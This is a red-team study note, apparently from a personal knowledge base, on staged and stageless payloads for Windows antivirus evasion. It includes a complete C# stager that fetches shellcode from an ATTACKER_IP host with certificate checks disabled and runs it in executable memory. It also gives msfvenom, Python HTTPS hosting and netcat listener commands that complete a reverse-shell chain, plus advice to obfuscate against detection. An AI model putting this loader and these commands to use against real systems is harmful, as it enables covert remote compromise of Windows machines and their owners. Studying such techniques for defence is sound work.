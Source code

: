 ```yaml
---
{"dg-publish":true,"permalink":"/cards/red-team/staged-and-stageless/","tags":["red-team/windows/ad/host-evasion"]}
---
```


~ [[cards/red-team/Evading Antivirus - Shellcode\|Evading Antivirus - Shellcode]]
### Introduction
---
This is how we deliver our final payload, there are two types one is **staged** and the other one is **stageless**, the difference is

- **Stageless** the [[cards/blue-team/malware-analysis/Analyzing Shellcode - Malware\|shellcode]] (payload) is embedded to itself, it's similar to a packaged app, the user opens the package then gets the 'reward'. A single step process.

- **Staged** it uses intermediary shellcode (payload) that leads to the execution of the final shellcode. Each of these 'intermediary' shellcodes is known as **stager** with a sole purpose of retrieving the final shellcode.
	- First stage (or the intermediary shellcode) is usually referred to as **stage0**.
	- Do note it's not limited to first stage then final payload - it could have many stages.

```staged
1. User Executes Payload -> 2. Retrieve FinalShell Code from Attacker ->
3.Load and execute final shellcode in memory -> 4. Send reverse shell
```


#### Key Topics
---
## Prerequisites
---
- [[cards/windows/Windows Internals\|Windows Internals - Processes, threads, Virtual Memory, and more.]]
- [[cards/red-team/Evading Antivirus - Shellcode\|Evading Antivirus - Shellcode]]
- [[cards/windows/Windows API\|Windows API]] 
## Why Stageless When Staged?
---

**Stageless**

- Attacking a host with very restricted network connectivity. Great to have fewer network detection
- Has a lot of perimeter security - see [[cards/red-team/Lay off the Land\|Lay off the Land]] to enumerate a host.

**Staged**

- Small footprint on disk - since **stage0** is only in charge of downloading the finalshellcode, it will most likely be small in size.
- **Final shellcode** isn't embedded into the executable - Blue team will only have access to the stage0 and nothing more. Useful for red teaming or a must 'hack' infrastructure.
- stage0 can simply be reused but it is recommended to change it up a little bit as security tools regularly scans for patterns.

So in summary:

- For _closed or heavily monitored environments_, **stageless** makes sense.
- For _persistent, stealthy campaigns_, **staged** with a well-crafted Stage0 and obfuscated final stage is often the better choice.

### Stagers in Metasploit
---
In metasploit, we can identify a stager and a stageless via the `_` and `/`:

| **Payload**                   | **Type**          |
| ----------------------------- | ----------------- |
| windows/x64/shell_reverse_tcp | Stageless payload |
| windows/x64/shell/reverse_tcp | Staged payload    |
## Basic Stager 
---
Here is a stager code, note it's best to add some obfuscation or any thing that can prevent pattern detection:

```csharp
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  //https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  //https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  //https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    string url = "https://ATTACKER_IP/shellcode.bin";
    Stager(url);
  }

  public static void Stager(string url)
  {

    WebClient wc = new WebClient();
    ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
    ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

    byte[] shellcode = wc.DownloadData(url);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

Breaking down the code:

Importing functions from `kernel32.dll`: (`VirtualAlloc`, `CreateThread`, `WiatForSingleObject`):

![Staged and Stageless.png](/img/user/cards/red-team/images/Staged%20and%20Stageless.png)

The second most important part is the `Stager()` function:

![Staged and Stageless-1.png](/img/user/cards/red-team/images/Staged%20and%20Stageless-1.png)

- `Webclient` allows us to download a shellcode using web request.
- `ServiceCertificateValidationCallback` allows us to download files from a server with self-signed or invalid certificate.
- `DownloadData` well it downloads I guess???? then stores it into the shell code var.

![Staged and Stageless-2.png](/img/user/cards/red-team/images/Staged%20and%20Stageless-2.png)

- `VirtualAlloc` copy the shell code into the executable memory by requesting a memory block from the OS -- notice the use of `shellcode.length` and we make the memory executable, readable and writable via `PAGE_EXECUTE_READWRITE`.
- Copy the contents of the shellcode into the var `codeAddr` via `Marshal.Copy` function.

![Staged and Stageless-3.png](/img/user/cards/red-team/images/Staged%20and%20Stageless-3.png)

- `CreateThread` to spawn a new thread on the current process that will execute our shellcode.
- The third parameter passed to CreateThread points to `codeAddr`, where our shellcode is stored, so that when the thread starts, it runs the contents of our shellcode.
- The fifth parameter is set to **0** which means the thread will start immediately.
- Once the thread is created, call the `WaitForSingleObject()` function to instruct our current program that it has to wait for the thread execution to finish before continuing. This prevents our program from closing before the shellcode thread gets a chance to execute.

### Running our Stager to get a reverse shell
---
Make sure to change the URL in the stager0 code then compile with:

```C
csc staged-payload.cs
```

At the attacker's box generate a simple reverse shell:

```C
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
```

Creating a simple self-signed certificate for our HTTPs server:

```C
openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```

Then hosting our payload by running a simple HTTPs server with python:

```C
python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

Then listening for reverse shell connections:

```C
nc -lvp 7474
```

Then:

![Staged and Stageless-4.png](/img/user/cards/red-team/images/Staged%20and%20Stageless-4.png)
